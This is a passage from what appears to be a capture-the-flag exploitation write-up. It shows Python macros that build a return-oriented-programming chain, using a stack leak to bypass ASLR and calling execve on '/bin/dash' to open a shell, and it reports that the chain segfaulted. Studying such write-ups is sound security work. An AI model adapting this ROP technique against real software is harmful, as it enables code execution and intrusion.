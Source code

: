 ## More failure

I created more Python assembly macros to aid in making the ropchain-writing code.

```
# Use a stack leak to compute the absolute address of a gadget at `off` and
# place it on the ropchain. `ropchain_len` is the current length of the
# ropchain in qwords.
def rel_gad(ropchain_len, off):
    assert off > leak_off
    p = ''
    p += read64(leak_loc_off)
    p += add64i(off - leak_off)
    p += write64(ret_addr_off + ropchain_len * 8)
    return p

# Add `data` to the ropchain verbatim
def abs_gad(ropchain_len, data):
    p = ''
    p += ld64(data)
    p += write64(ret_addr_off + ropchain_len * 8)
    return p

p = ''
# leak_off:      0x00020431
p += rel_gad( 0, 0x000f5295)
p += rel_gad( 1, 0x00399080)
p += rel_gad( 2, 0x00035578)
p += abs_gad( 3, u64('/bin/das'))
p += rel_gad( 4, 0x0002c42c)
p += rel_gad( 5, 0x00058552)
p += rel_gad( 6, 0x00399088)
p += rel_gad( 7, 0x00035578)
p += abs_gad( 8, u64('h\x00\x00\x00\x00\x00\x00\x00'))
p += rel_gad( 9, 0x0002c42c)
p += rel_gad(10, 0x00101461)
p += rel_gad(11, 0x00399080)
p += rel_gad(12, 0x0011b879)
p += rel_gad(13, 0x00399089)
p += rel_gad(14, 0x000f5295)
p += rel_gad(15, 0x00399089)
p += rel_gad(16, 0x00035578)
p += abs_gad(17, 59)
p += rel_gad(18, 0x000a87e5)
p += '\x00\xfd' # EXIT
```

It segfaulted.

## More debugging

After several tests, tweaking, and debugging, I figured out that the ropchain was being corrupted after 5 qwords, but only the sections of the ropchain that required leaking ASLR.

